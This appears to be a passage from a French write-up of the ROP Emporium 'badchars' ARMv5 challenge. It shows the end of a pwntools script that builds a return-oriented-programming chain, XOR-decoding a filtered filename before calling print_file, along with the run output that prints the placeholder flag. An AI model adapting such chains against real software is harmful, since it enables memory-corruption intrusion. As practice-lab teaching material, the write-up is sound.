 ```python
PL+=p32(data+4)
PL+=p32(g_str_r3r4)
PL+=p32(data+2)  # r5
PL+=p32(3)       # r6

# sequence de xor
PL+=p32(g_xor_r5r6)
PL+=p32(0)       # r0

PL+=p32(g_pop_r5r6)
PL+=p32(data+3)  # r5
PL+=p32(3)       # r6
PL+=p32(g_xor_r5r6)
PL+=p32(0)       # r0

PL+=p32(g_pop_r5r6)
PL+=p32(data+4)  # r5
PL+=p32(3)       # r6
PL+=p32(g_xor_r5r6)
PL+=p32(0)       # r0

PL+=p32(g_pop_r5r6)
PL+=p32(data+6)  # r5
PL+=p32(3)       # r6
PL+=p32(g_xor_r5r6)
PL+=p32(data)       # r0

PL+=p32(print_file)
PL+=p32(main)


io.sendline(PL)
io.interactive()
```

### Execution du script

    [*] '/w/ropemporium/armv5/05_badchars/badchars_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
        RUNPATH:  b'.'
    [+] Starting local process '/w/ropemporium/armv5/05_badchars/badchars_armv5': pid 1459
    [*] flagxored    = b'flbd-t{t'
    [*] .data       = 0x21024
    [*] .print_file = 0x104b4
    [*] Switching to interactive mode
    Thank you!
    ROPE{a_placeholder_32byte_flag!}
    [*] Got EOF while reading in interactive
